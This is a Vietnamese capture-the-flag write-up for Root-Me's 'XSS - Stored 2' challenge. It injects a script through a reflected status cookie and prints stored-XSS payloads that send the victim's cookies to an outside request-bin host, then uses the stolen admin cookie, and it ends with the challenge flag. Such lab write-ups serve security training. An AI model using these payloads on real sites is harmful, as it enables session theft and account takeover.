 # WRITE UP

**Challenge:** [XSS -- Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là **Status: invite** ở mỗi post.

![Graphical user interface, text, website Description automatically generated](./media/image1.png){width="6.5in" height="3.0145833333333334in"}

Check cookie của website thì thấy nó được handle dựa trên cookie này:

![Graphical user interface Description automatically generated with medium confidence](./media/image2.png){width="6.5in" height="3.2180555555555554in"}

Bỏ vào repeater và check thử thì thấy nó work:

![Graphical user interface, text, application, email Description automatically generated](./media/image3.png){width="6.5in" height="3.321527777777778in"}

Ở đây, class "nh4ttruong" sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:

**Payload:** hehe\"\>\<script\>alert(1)\</script**\>**

![Graphical user interface, text, application Description automatically generated](./media/image4.png){width="6.5in" height="1.6125in"}

![Graphical user interface, application, Teams Description automatically generated](./media/image5.png){width="6.5in" height="1.9715277777777778in"}

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:

**Payload:** *\"\>\<script\>document.write(\"\<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/\>%22))\</script\>*

Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

![Graphical user interface, text, application Description automatically generated](./media/image6.png){width="6.5in" height="2.9458333333333333in"}

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;" kết thúc bằng " ", do đó, rất có thể nó không link được đến cookie của admin

![A screenshot of a computer Description automatically generated with medium confidence](./media/image7.png){width="6.5in" height="2.067361111111111in"}

Để giải quyết điều này, ta thử sử dụng hàm REPLACE để xóa bỏ " " và chèn vào ký tự "&" để link các cookie với nhau:

**Payload:** *\"\>\<script\>document.write(\"\<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie.replace(%27 %27,%27&%27 ).concat(%22/\>%22))\</script\>*

![Graphical user interface, text, application Description automatically generated](./media/image8.png){width="6.5in" height="2.5027777777777778in"}

Có **ADMIN_COOKIE**, ta thay đổi vào cookie và get pass:

![Graphical user interface, text, application, email Description automatically generated](./media/image9.png){width="6.5in" height="3.91875in"}

![A screenshot of a computer Description automatically generated with medium confidence](./media/image10.png){width="6.5in" height="3.2416666666666667in"}

**Flag:** E5HKEGyCXQVsYaehaqeJs0AfV
